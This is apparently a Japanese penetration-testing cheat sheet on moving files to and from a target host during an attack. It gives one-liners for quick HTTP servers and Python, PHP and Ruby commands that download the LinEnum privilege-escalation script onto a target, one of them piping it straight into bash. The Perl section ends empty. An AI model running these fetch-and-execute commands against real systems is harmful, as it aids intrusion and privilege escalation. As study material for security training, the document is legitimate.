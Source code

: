
### 簡単なhttpのwebサーバーを立てる方法(HTTP)
##### ターゲット側

- `python3 -m http.server 8080`
- `python3 -m uploadserver`
- `python2.7 -m SimpleHTTPServer`
- `php -S 0.0.0.0:8000`
- `ruby -run -ehttpd . -p8000`
##### 攻撃者側
```shell-session
wget 192.168.49.128:8000/filetotransfer.txt
```

## コードを使ったファイルダウンロード
- ターゲット側でコードを使って、ファイルをダウンロードする
- Linux では **Python、PHP、Perl、Ruby,JavaScript** などの言語が一般的に利用できる
- Windows にもインストールすることは可能(一般的ではないけど)
	- Windows では **`cscript` や `mshta`** などのデフォルトアプリケーションを使って **JavaScript や VBScript** を実行することができる
### 攻撃者側
pythonでHTTPサーバーとかを立ち上げて、アクセスさせる
 ```bash
python3 -m http.server 8080
 ```

  攻撃者サーバーを一時的にwebサーバーとする
### ターゲット側
#### Python2
```shell-session
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### Python3
```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### PHP
##### File_get_contents()でPHPをダウンロード
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
##### Fopen()でPHPダウンロード
```shell-session
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
##### PHPでファイルをダウンロードし、それをBashにパイプする
```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
##### Ruby
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
##### Perl
```shell-session
```